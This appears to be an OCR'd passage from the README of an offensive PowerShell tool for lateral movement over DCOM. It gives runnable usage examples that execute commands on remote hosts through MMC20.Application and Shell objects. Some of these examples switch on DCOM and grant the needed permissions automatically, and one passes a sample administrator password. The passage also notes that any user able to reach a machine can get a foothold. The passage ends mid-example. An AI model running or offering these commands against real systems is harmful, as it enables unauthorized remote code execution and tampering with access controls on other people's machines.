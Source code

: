             PS> Get-ExecutionCommand -ObjectName "MMC20.Application" -ObjectPath "Document.ActiveView.ExecuteShellCommand" -HostList "10.211.55.4" -Force -Verbose

  4. Tries to interact with "MMC20.Application" ProgID object without checking principal-identity privileges

            PS> Get-ExecutionCommand -ObjectName "MMC20.Application" -ObjectPath "Document.ActiveView.ExecuteShellCommand" -HostList "10.211.55.4" -NoAuth -Verbose


#### Invoke-ExecutionCommand

Invoke-ExecutionCommand function executes commands via DCOM Object using the logged-on user or provided credentials.
* Examples:

  1. Checks for DCOM access,  
    In case the principal-identity doesn't have the necessary permissions or the DCOM feature is disabled, the tool will enable the DCOM feature, grant access, Interact with MMC20.Application object using current logged-on user session and Execute the following commands:
     1. "cmd.exe /c calc"
     2. Frame.Top attribute to "1"
    Finally, revert the machine to the same state as before the attack.

            PS> Invoke-ExecutionCommand -ObjectName "MMC20.Application" -AutoGrant -Commands @( @{ObjectPath="Document.ActiveView.ExecuteShellCommand"; Arguments=@('cmd.exe',$null,"/c calc","Minimized")},@{ObjectPath="Frame.Top";Arguments=@(1)} ) -Verbose -HostList 10.211.55.4

  2. Tries to interact with MMC20.Application object using lab\administrator credentials, and executes the following command: "cmd.exe /c calc".

            PS> Invoke-ExecutionCommand -ObjectName "MMC20.Application" -Commands @( @{ObjectPath="Document.ActiveView.ExecuteShellCommand"; Arguments=@('cmd.exe',$null,"/c calc","Minimized")}) -Verbose -HostList 10.211.55.4 -Username lab\administrator -Password Aa123456!

  3. Tries to interact with MMC20.Application object using current logged-on user session (Even the tool assumes that the user doesn't have an access to the object), and executes the following command: "cmd.exe /c calc".

            PS> Invoke-ExecutionCommand -ObjectName "MMC20.Application" -Commands @( @{ObjectPath="Document.ActiveView.ExecuteShellCommand"; Arguments=@('cmd.exe',$null,"/c calc","Minimized")}) -Verbose -HostList 10.211.55.4 -Force

#### Invoke-RegisterRemoteSchema

Invoke-RegisterRemoteSchema function executes commands via one of the following objects object using the logged-on user or provided credentials:
* ShellBrowserWindow
* ShellWindows
* Internet Explorer
* ielowutil.exe

**Note:** These objects doesn't need access to local machine hive, it will proceed with the foothold with any user that can access the remote machine!

* Examples:
  1. Executes "cmd /c calc" command on 10.211.55.1/24 remote machine using the current logged-on session, and grant privileges if is needed
